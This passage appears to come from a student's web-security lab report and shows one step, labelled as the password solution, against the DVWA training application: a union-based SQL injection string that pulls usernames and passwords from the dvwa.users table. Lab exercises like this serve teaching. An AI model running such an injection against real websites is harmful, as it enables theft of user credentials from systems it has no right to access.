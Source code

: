 ![image-20250625143751301](./images/web%E6%9C%9F%E6%9C%AB%E5%AE%9E%E8%AE%AD.assets/image-20250625143751301.png)



⑥密码解答

```
1' or 1 = 1 union select user,password FROM dvwa.users #
```
